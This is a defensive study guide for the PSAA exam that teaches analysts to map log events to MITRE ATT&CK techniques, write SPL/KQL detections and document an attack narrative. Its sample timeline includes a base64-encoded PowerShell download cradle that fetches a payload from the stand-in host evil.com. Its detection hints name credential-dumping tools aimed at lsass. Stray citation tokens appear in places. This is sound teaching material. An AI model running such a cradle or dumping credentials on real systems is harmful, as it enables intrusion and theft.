



# Leveraging the MITRE ATT&CK Framework

## TCM Exam Objectives

- Navigate the ATT&CK matrix structure: tactics (columns), techniques (cells), and sub-techniques
- Map raw log events to specific ATT&CK technique IDs with supporting evidence
- Use ATT&CK as an investigation compass to guide proactive hunting for related adversary behavior
- Write SIEM detection queries (KQL, SPL) for specific ATT&CK techniques
- Design Sigma rules tied to ATT&CK technique IDs for SIEM-agnostic detection
- Build complete attack narratives using ATT&CK technique chains across multiple tactics
- Document ATT&CK mappings in structured tables with tactic, technique ID, name, evidence, and log source
- Apply the ATT&CK Navigator concept to visualize defensive coverage gaps
- Recommend proactive defenses tied to specific techniques (e.g., PowerShell Constrained Language for T1059.001)
- Master the common PSAA techniques: T1059.001, T1003.001, T1055, T1047, T1021.001, T1566.001, T1218.005

The MITRE ATT&CK framework is a globally accessible knowledge base of adversary tactics and techniques based on real-world observations. It is the common language of cybersecurity operations and is embedded in the PSAA exam's DNA. The framework transforms raw logs into a clear, defensible attack narrative and elevates your report from a simple IOC list to a behavioral analysis that demonstrates true SOC analyst maturity.

- ATT&CK matrix structure: tactics, techniques, sub-techniques
- Using ATT&CK as an investigation compass
- Detection engineering with ATT&CK
- Documenting mappings in the PSAA report





> 📌 **Exam Tip:** Keep the MITRE ATT&CK website open during the exam as a legitimate reference resource. For every event you identify, ask: "What tactic does this serve?" and "Which technique ID maps to this behavior?" This transforms raw logs into a structured attack narrative.

> 📌 **Exam Tip:** The ATT&CK matrix has tactics as columns and techniques as cells. When writing your report, organize evidence by tactic first, then technique. This structure mirrors the matrix and makes it easy for evaluators to verify your mapping against the framework.

## ATT&CK Matrix Structure

ATT&CK organizes adversary behavior into a matrix where columns are Tactics (the "why") and cells are Techniques (the "how"). Many techniques have Sub-techniques for finer granularity.

| Tactic ID | Tactic Name | Meaning | PSAA Example |
| :--- | :--- | :--- | :--- |
| TA0001 | Initial Access | How the attacker got in | Spear-phishing attachment, brute-force SSH |
| TA0002 | Execution | How the attacker ran code | PowerShell, Windows Command Shell, macro |
| TA0003 | Persistence | How the attacker maintains access | Scheduled Task, Registry Run Key |
| TA0004 | Privilege Escalation | How the attacker gains higher privileges | Token Manipulation |
| TA0005 | Defense Evasion | How the attacker avoids detection | Obfuscated PowerShell, Masquerading |
| TA0006 | Credential Access | How the attacker steals credentials | Credential Dumping, Brute Force |
| TA0007 | Discovery | How the attacker learns the environment | System Information Discovery |
| TA0008 | Lateral Movement | How the attacker moves between systems | RDP, SMB, Pass the Hash |
| TA0009 | Collection | How the attacker gathers data | Email Collection, Data from Local System |
| TA0011 | Command and Control | How the attacker controls systems | Web Protocols, Non-Standard Port |
| TA0010 | Exfiltration | How the attacker steals data | Exfiltration Over C2 Channel |

The full matrix contains many more techniques. For the PSAA, keep the ATT&CK website open during the exam as a legitimate resource 【turn0search1】.

## Technique Anatomy: T1059.001 - PowerShell

Take a technique you will certainly encounter in the PSAA: T1059.001, PowerShell:
- **Tactic:** Execution (TA0002)
- **Technique:** Command and Scripting Interpreter (T1059)
- **Sub-technique:** PowerShell (T1059.001)
- **Detection:** Sysmon Event ID 1 with `Image` ending in `powershell.exe` and suspicious `CommandLine` parameters, especially encoded commands (`-enc`)

When you see a PowerShell-encoded command, you say: "The adversary used PowerShell (T1059.001) to execute a download cradle as part of the Execution phase."

## ATT&CK as Investigation Compass

For every actionable log event, ask: *What tactic does this behavior serve?* Then map to a specific technique.

| Timestamp | Raw Log Evidence | ATT&CK Mapping |
| :--- | :--- | :--- |
| 10:01:10 | Email gateway: user received `invoice.docm` | T1566.001 (Phishing: Spearphishing Attachment) → Initial Access |
| 10:02:05 | Sysmon EID 1: `winword.exe` spawns `cmd.exe` via macro | T1204.002 (User Execution: Malicious Macro) → Execution |
| 10:02:15 | Sysmon EID 1: `powershell.exe -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZQB2AGkAbAAuAGMAbwBtAC8AcABhAHkAbABvAGEAZAAnACkA` | T1059.001 (PowerShell) → Execution |
| 10:03:45 | Sysmon EID 11: `evil.lnk` created in Startup folder | T1547.001 (Boot/Logon Autostart: Startup Folder) → Persistence |
| 10:04:02 | Sysmon EID 3: `payload.exe` connects to `45.33.32.156:443` | T1071.001 (Web Protocols) → C2 |
| 10:15:00 | Sysmon EID 10: `payload.exe` accesses `lsass.exe` | T1003.001 (LSASS Memory) → Credential Access |

This timeline tells a complete story. Use ATT&CK to guide hunting—when you see lateral movement, proactively hunt for discovery and collection on the target system 【turn0search2】.

> 📌 **Exam Tip:** Your ATT&CK mapping table should include five columns: Tactic, Technique ID, Technique Name, Observed Activity, and Evidence (log source + event ID). This structure clearly demonstrates your ability to connect raw logs to the framework and is exactly what evaluators look for.

> 📌 **Exam Tip:** For every technique you identify, craft a corresponding detection query and add it to your report. This shows you can translate threat intelligence into actionable defense. A Sigma rule for T1547.001 (Startup Folder) linked to your observed evidence demonstrates senior-level capability.

## Detection Engineering with ATT&CK

For each technique identified, craft a detection query to demonstrate proactive defense:

```spl
# T1059.001: PowerShell encoded commands
index=sysmon EventCode=1 Image="*\\powershell.exe"
  CommandLine IN ("* -enc *", "*IEX*", "*Invoke-Expression*")
```

```kql
# T1003.001: LSASS memory dumping
event.code : "10" AND TargetImage : "*\\lsass.exe"
  AND NOT SourceImage : ("*\\MsMpEng.exe", "*\\svchost.exe")
```

In your report, describe Sigma rules: "Deploy a Sigma rule to detect startup folder persistence (T1547.001) by alerting on file creation in `Start Menu\Programs\Startup` by a non-explorer process."

The ATT&CK Navigator is a free online tool for visualizing technique coverage. While you won't use it directly in the exam, mention it: "Import observed techniques into an ATT&CK Navigator heatmap to visualize attack coverage and identify defensive gaps."

<details>
<summary>Common ATT&CK Techniques for PSAA</summary>

| Technique ID | Name | Detection Hint |
| :--- | :--- | :--- |
| T1059.001 | PowerShell | `-enc`, `IEX`, `DownloadString` in command line |
| T1003.001 | LSASS Memory | `procdump.exe`, `mimikatz.exe` accessing `lsass.exe` |
| T1055 | Process Injection | Sysmon EID 8 (CreateRemoteThread) |
| T1047 | WMI | `wmic.exe` process call create |
| T1021.001 | RDP | Event ID 4624 LogonType 10 |
| T1566.001 | Spearphishing Attachment | Email with macro-enabled attachment |
| T1218.005 | Mshta | `mshta.exe` with URL argument |

These appear frequently in PSAA-aligned scenarios.
</details>

## Documenting ATT&CK in the PSAA Report

### Attack Narrative

> "The attacker gained Initial Access via a spear-phishing email with a malicious macro (T1566.001). The user executed the macro, leading to Execution of a PowerShell download cradle (T1059.001). The payload established Persistence via a Startup folder shortcut (T1547.001) and C2 over HTTPS (T1071.001). The adversary then moved Laterally via SMB (T1021.002) and attempted Credential Dumping via LSASS access (T1003.001)."

### ATT&CK Mapping Table

| Tactic | Technique ID | Technique Name | Evidence | Log Source |
| :--- | :--- | :--- | :--- | :--- |
| Initial Access | T1566.001 | Spearphishing Attachment | Email with `invoice.docm` delivered to `jsmith` | Email gateway |
| Execution | T1059.001 | PowerShell | Encoded command downloaded payload from `evil.com/payload` | Sysmon EID 1 |
| Persistence | T1547.001 | Startup Folder | Malicious LNK in user's Startup folder | Sysmon EID 11 |
| C2 | T1071.001 | Web Protocols | `payload.exe` connected to `45.33.32.156:443` | Sysmon EID 3 |
| Credential Access | T1003.001 | LSASS Memory | `payload.exe` accessed `lsass.exe` process | Sysmon EID 10 |

### Proactive Recommendations Tied to ATT&CK

- **T1566.001:** Implement phishing simulations and block macros from the internet by default
- **T1059.001:** Deploy PowerShell Constrained Language Mode and alert on encoded commands
- **T1547.001:** Deploy Sigma rule for Startup folder file creations from non-standard processes
- **T1071.001:** Implement egress filtering and integrate known C2 domains into proxy blocklist



## Recap

MITRE ATT&CK is the universal language for describing adversary behavior 【turn0search1】【turn0search2】. It takes raw logs, extracted IOCs, and correlated events and ties them together under a structured taxonomy. In the PSAA, a report with ATT&CK mapping proves you understand not just what happened, but why and how, and translates that understanding into stronger defenses.
